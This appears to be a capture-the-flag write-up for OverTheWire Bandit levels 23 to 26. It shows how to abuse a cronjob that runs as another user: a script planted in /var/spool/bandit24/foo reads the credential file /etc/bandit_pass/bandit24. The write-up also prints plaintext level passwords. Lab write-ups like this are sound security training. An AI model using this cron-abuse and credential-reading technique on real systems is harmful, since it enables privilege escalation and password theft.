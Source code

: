 
The file above specifies that it collects 2 variables, one uses the whoami provided and then mytarget uses a formula to turn something into an md5sum digest. From there it uses that hash to output a file into /tmp/hashformula

Then it was a matter of accessing that folder content and extract the passwd.

---
**bandit24:** `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

Objective: Steal bandit24's password using bandit23's cronjob.

## Key Insights
- Passwords stored in `/etc/bandit_pass/<username>`.

- Cronjob `/usr/bin/cronjob_bandit24.sh` runs as bandit24 every minute.

- Cronjob executes and deletes files in `/var/spool/bandit24/foo` owned by bandit23, redirecting all output to `/dev/null`.

## Solution Steps
1. **Create Writable Directory as bandit23**:
   - Run `mktemp -d` to create `/tmp/tmp.XXXXXX`.
   - Set permissions: `chmod 777 /tmp/tmp.XXXXXX` to allow bandit24 writes.

2. **Craft Script as bandit23**:
   ```bash
   #!/bin/bash
   cat /etc/bandit_pass/bandit24 > /tmp/tmp.XXXXXX/bandit24_pass.txt
   chmod 644 /tmp/tmp.XXXXXX/bandit24_pass.txt

```

- Save as script.sh in home directory.
- Set executable: chmod +x script.sh.
- Ensure ownership: chown bandit23:bandit23 script.sh.
- Move to cronjob directory: mv script.sh /var/spool/bandit24/foo.

3. **Wait and Retrieve**:
    - Cronjob runs script within 60 seconds.
    - Read password: cat /tmp/tmp.XXXXXX/bandit24_pass.txt.

## Pitfalls

- **Permissions**: Using tee or > fails if /tmp directory lacks 777 permissions for bandit24.
- **Cronjob**: Only executes files owned by bandit23 in /var/spool/bandit24/foo.
- **Output**: Cron nullifies stdout/stderr; use file writes for verification.
- **Directory**: /var/spool/bandit24/foo must exist; create if missing with mkdir as bandit23.
  
  ---
**bandit25:** `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`

---
**bandit26:** `s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ`
